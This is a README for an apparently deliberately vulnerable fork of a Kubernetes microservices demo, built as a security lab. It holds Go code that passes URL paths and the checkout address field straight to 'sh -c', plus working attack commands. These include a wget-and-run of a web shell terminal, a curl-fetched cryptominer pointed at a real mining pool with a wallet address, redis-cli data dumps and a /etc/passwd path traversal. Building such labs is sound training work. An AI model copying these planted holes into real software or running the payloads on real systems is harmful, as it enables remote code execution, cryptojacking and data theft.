



<br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accommodate some of the use-cases mentioned below

1. **Sensitive keys in codebases** -
     [committing sensitive information to the version control system.](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#sensitive-data-exposure)

2. **Custom handle with code execution** -
    [a custom httpHandler to reply *whoami*](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#custom-handle)
3. **Vulnerable address field** - 
    [to executes codes in the backend](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#rce)
4. **Crypto Miner on pod** - [to install cryptominer python based application on to a pod](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#crypto-miner)
5. **Redis data exposure** - [to connect and disclose the data stored in redis db](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#redis-data-exposure)


> **Note:** These tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed environment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public IP**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
## Custom Handle

**Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
## RCE

**Give commands in Address field to install and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [](./images/address.png) 


## Crypto Miner

**Give commands in Address field to install and run Crypto Miner Python application**

*Command*

```
apk add --no-cache wget curl python2 && curl -L https://github.com/ricmoo/nightminer/archive/refs/heads/master.zip > test.zip && unzip test.zip && cd nightminer-master && python nightminer.py -o stratum+tcp://eu.miningdao.io:4444  -u 1LNdGsYtZXWeiKjGba7T997qvzrWqLXLma 
```

[](./images/connection-hubble.png) 

## Redis data exposure

**Use the /cmd/ handle to get env variables**

*Command*

```
<your-external-ip>/cmd/printenv
```
[](./images/printenv.png) 

**Use redis-cli to connect to the above ip and see the KEYS**

*Command*

```
<your-external-ip>/cmd/echo "KEYS *" | redis-cli -h <redis-cart-ip>
```
[](./images/redis-cli.png) 

**Use redis-cli to show the type of data**

*Command*

```
<your-external-ip>/cmd/echo "type <value>" | redis-cli -h <redis-cart-ip>
```
[](./images/redis-cli-type.png) 

**Use redis-cli to show the data**

*Command*

```
<your-external-ip>/cmd/echo "hgetall <value>" | redis-cli -h <redis-cart-ip>
```
[](./images/redis-cli-data.png) 
<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```


## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```
## local_file_inclusion
```Local file inclusion (also known as LFI) is the process of including files that are already locally present on the server, through the exploitation of vulnerable inclusion procedures implemented in the application.
This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included, and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected.
For Example in PHP we use “include” method to merge the sub files into the main file and we merge the parameter or file names with the variable names like (page,file,etc..,)

http://external-ip/lfi/index.php?file=page1.php  

It merge the page1.php file with index.php and it will shown

A penetration tester would attempt to exploit this vulnerability by manipulating the file location parameter, such as:

http://external-ip/lfi/index.php?file=../../../../etc/passwd

The above is an effort to display the contents of the /etc/passwd file on a UNIX / Linux based system
```
## Files Changed

> microservices-demo/src/frontend/main.go

*Line 147:*
```go
r.PathPrefix("/lfi/").Handler(http.StripPrefix("/lfi/", http.FileServer(http.Dir("./lfi/"))))
```
> microservices-demo/src/frontend/Dockerfile
**Dockerfile**
*Line 37:*
```
COPY ./lfi ./lfi
```

<br />
